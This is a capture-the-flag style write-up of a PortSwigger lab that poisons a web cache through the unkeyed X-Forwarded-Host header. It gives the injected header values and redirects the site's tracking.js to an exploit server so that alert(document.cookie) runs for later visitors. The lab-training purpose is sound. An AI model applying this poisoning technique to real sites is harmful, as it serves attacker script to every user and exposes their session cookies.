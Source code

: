 # 🧨 Web Cache Poisoning via Unkeyed Header – PortSwigger Lab (Writeup by vgod)

**Lab:** Web cache poisoning with an unkeyed header  
**Difficulty:** Practitioner  
**Author:** `vgod`  
**Tags:** `web-cache-poisoning`, `xss`, `unkeyed-headers`, `bugbounty`, `portswigger-labs`

---

## 🧪 What I Did

1. Opened the lab in a browser and intercepted the homepage request using **Burp Suite**.
2. Sent the homepage request to **Repeater** for testing.
3. Injected the header:
   ```http
   X-Forwarded-Host: bing.com
   ```
4. Observed that the response reflected the value and returned `X-Cache: hit`, confirming it was cached.
5. Opened `/resources/tracking.js` in the browser, copied the JS file's content, and pasted it into the **exploit server**.
6. Replaced `bing.com` with the **exploit server’s link** that hosts the JavaScript payload:
   ```http
   X-Forwarded-Host: your-exploit-server.exploit-server.net
   ```
7. Repeated the request until the response showed `X-Cache: hit` again.
8. Opened the poisoned homepage in the browser → 💥 **`alert(document.cookie)`** executed.

---

## ✅ Result

Successfully poisoned the cache using the unkeyed `X-Forwarded-Host` header. The malicious JS hosted on the exploit server was served to future users — triggering **stored XSS**.

---

## 💡 Key Takeaways

- Always test headers like `X-Forwarded-Host` for cache poisoning.
- Cache poisoning can store malicious content affecting all users.
- Using exploit server with your payload is a great trick for hosting custom JS.

---

🕶️ Written by `vgod` – chasing bugs, writing payloads, breaking cache ☠️  
Follow for more writeups and real-world hacking notes.
